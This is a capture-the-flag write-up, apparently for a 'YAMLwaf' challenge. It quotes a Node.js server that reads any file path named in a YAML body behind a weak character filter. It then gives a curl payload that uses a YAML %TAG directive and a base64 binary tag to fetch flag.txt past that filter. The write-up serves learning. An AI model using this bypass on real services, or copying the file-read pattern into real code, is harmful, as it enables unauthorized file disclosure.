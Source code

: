 ```js
  }
  if (req.body.includes('\\') || req.body.includes('/') 
    || req.body.includes('!!') || req.body.includes('<')) {
    return res.status(403).send('Hello, Hacker :)');
  }
  try {
    const data = yaml.load(req.body);
    const filePath = data.file;

    if (filePath && fs.existsSync(filePath)) {
      const content = fs.readFileSync(filePath, 'utf8');
      if (!content.isFile()) {
        return res.status(403).send('Not file');
      }
      return res.send(content);
    } else {
      return res.status(404).send('File not found');
    }
  } catch (err) {
    return res.status(400).send('Invalid request');
  }
});

app.listen(3000, () => {
  console.log('Server listening on port 3000');
});
```

From the code, we can see it will check if the request body contains `flag`, `\`, `/`, `!!`, `<` and if so it will return `Not allowed!` or `Hello, Hacker :)`. <br>

So after finding and researching on google and even asking chatgpt, I could not any ideas. <br>
And ctf ended and come up with community solution is: <br>
```bash
➜  YAMLwaf curl -X POST "http://challs.tsukuctf.org:50001" \
     -H "Content-Type: text/plain" \
     -d $'%TAG !b! tag:yaml.org,2002:binary\n---\nfile: !b! ZmxhZy50eHQ='
```

Let's demonstrate it out. <br>

After going through [YAML](https://yaml.org), we found that:

- This payload use [BINARY_TAG](https://yaml.org/type/binary.html) to explicitly specify the file is a binary file.

- `%TAG` is `TAG directive` from [YAML_TAG_DIRECTIVE](https://yaml.org/spec/1.1/#TAG%20directive/).

Here is the flow: <br>
A `%TAG` line associates a handle (like `!b!`) with a prefix (`tag:yaml.org,2002:`). After that, any node tagged `!b!binary` expands to the full URI `tag:yaml.org,2002:binary`.

- After that, we use `---` to start the document from [YAML_DOCUMENT_START](https://yaml.org/spec/1.1/#document%20boundary%20marker/).
